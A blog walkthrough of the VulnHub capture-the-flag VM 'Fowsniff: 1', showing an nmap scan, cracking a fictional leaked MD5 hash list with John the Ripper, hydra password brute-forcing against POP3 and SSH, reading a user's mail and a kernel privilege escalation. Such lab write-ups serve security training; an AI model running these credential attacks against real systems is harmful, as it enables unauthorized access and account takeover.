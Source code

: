```yaml
---
layout: post
title: "Fowsniff: 1 Walkthrough"
subtitle: "I Smell Foul Play"
date: 2018-11-24 10:27:11 +0000
category: Walkthrough
tags: [VulnHub, Fowsniff]
comments: true
image:
  feature: fowsniff-1-walkthrough.jpg
  credit: stevepb / Pixabay
  creditlink: https://pixabay.com/en/mistake-spill-slip-up-accident-876597/
---
```


This post documents the complete walkthrough of Fowsniff: 1, a boot2root [VM][1] created by [berzerk0][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

Fowsniff Corp got breached!

```
       WHAT SECURITY?

            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |
|       .oooO                |
|        (   )   Oooo.       |
+---------\ (----(   )-------+
           \\_)    ) /
                 (_/


Fowsniff Corp got pwn3d by B1gN1nj4!


No one is safe from my 1337 skillz!
```

### Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT    STATE SERVICE REASON         VERSION
22/tcp  open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
110/tcp open  pop3    syn-ack ttl 64 Dovecot pop3d
|_pop3-capabilities: RESP-CODES PIPELINING SASL(PLAIN) UIDL USER AUTH-RESP-CODE TOP CAPA
143/tcp open  imap    syn-ack ttl 64 Dovecot imapd
|_imap-capabilities: IDLE more listed LITERAL+ ID post-login have IMAP4rev1 OK capabilities AUTH=PLAINA0001 SASL-IR Pre-login LOGIN-REFERRALS ENABLE
```

`nmap` finds `22/tcp`, `80/tcp`, `110/tcp`, `143/tcp`. Pretty common services—nothing out of the ordinary. In any case, let's start with `http` first.

Here's what the site looks like.

![f77a9c89.png](/assets/images/posts/fowsniff-1-walkthrough/f77a9c89.png)

WTF??!! Are you serious?

Scrolling down, you'll see what went wrong at Fowsniff Corp.

![506e5d19.png](/assets/images/posts/fowsniff-1-walkthrough/506e5d19.png)

They are not lying when they say the attackers may release sensitive information through Twitter.

![658278d2.png](/assets/images/posts/fowsniff-1-walkthrough/658278d2.png)

Let's see what the attackers have to offer.

```
FOWSNIFF CORP PASSWORD LEAK
            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |         
|       .oooO                |         
|        (   )   Oooo.       |         
+---------\ (----(   )-------+
           \\_)    ) /
                 (_/
FowSniff Corp got pwn3d by B1gN1nj4!
No one is safe from my 1337 skillz!


mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e

Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!

Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!

MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P

l8r n00bz!

B1gN1nj4

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
This list is entirely fictional and is part of a Capture the Flag educational challenge.

All information contained within is invented solely for this purpose and does not correspond
to any real persons or organizations.

Any similarities to actual people or entities is purely coincidental and occurred accidentally.
```

### Password Recovery

Let's recover the passwords from those hashes with John the Ripper. Yummy!

```
# /opt/john/john -format=raw-md5 --show hashes.txt
mauer@fowsniff:mailcall
mustikka@fowsniff:bilbo101
tegel@fowsniff:apples01
baksteen@fowsniff:skyler22
seina@fowsniff:scoobydoo2
mursten@fowsniff:carp4ever
parede@fowsniff:orlando12
sciana@fowsniff:07011972
```

Eight out of nine recovered. Impressive.

### Password Verification

Now, let's verify who has access to what with `hydra`.

```
# hydra -L usernames.txt -P passwords.txt -e nsr pop3://192.168.30.129
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-11-24 09:19:19
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 96 login tries (l:8/p:12), ~6 tries per task
[DATA] attacking pop3://192.168.30.129:110/
[110][pop3] host: 192.168.30.129   login: seina   password: scoobydoo2
[STATUS] 96.00 tries/min, 96 tries in 00:01h, 1 to do in 00:01h, 16 active
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-11-24 09:20:29
```

Hmm. Someone didn't change their password after the breach.

### Popping Emails

I know it's unethical to read other's email but the temptation is too great. Can't help it, let's read `seina`'s email then.

![3b31d0de.png](/assets/images/posts/fowsniff-1-walkthrough/3b31d0de.png)

Now now now, what do we have here? SSH password??!!

### Password Verification Redux

Let's see who hasn't change their password.

```
# hydra -L usernames.txt -p 'S1ck3nBluff+secureshell' ssh://192.168.30.129
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-11-24 09:28:53
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:8/p:1), ~1 try per task
[DATA] attacking ssh://192.168.30.129:22/
[22][ssh] host: 192.168.30.129   login: baksteen   password: S1ck3nBluff+secureshell
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-11-24 09:28:55
```

Caught in action. `baksteen` is in trouble.

### Low-Privilege Shell

Armed with the SSH password, let's give ourselves a low-privilege shell.

![4e189efa.png](/assets/images/posts/fowsniff-1-walkthrough/4e189efa.png)

Boom. I'm in.

### Privilege Escalation

During enumeration of `baksteen`'s account, I notice the kernel (4.4.0-116-generic) is vulnerable to a local privilege escalation [exploit](https://www.exploit-db.com/exploits/44298/).

`gcc` is also not installed on `fowsniff`. No problem. I can compile the exploit on my attacking machine and transfer it over with `scp`.

![27f32891.png](/assets/images/posts/fowsniff-1-walkthrough/27f32891.png)

Damn. This is too easy.

![f45678ec.png](/assets/images/posts/fowsniff-1-walkthrough/f45678ec.png)

### What's the Flag?

Getting the flag with a `root` shell is trivial.

![a55aa93d.png](/assets/images/posts/fowsniff-1-walkthrough/a55aa93d.png)

:dancer:

[1]: https://www.vulnhub.com/entry/fowsniff-1,262/
[2]: https://twitter.com/@berzerk0
[3]: https://www.vulnhub.com/
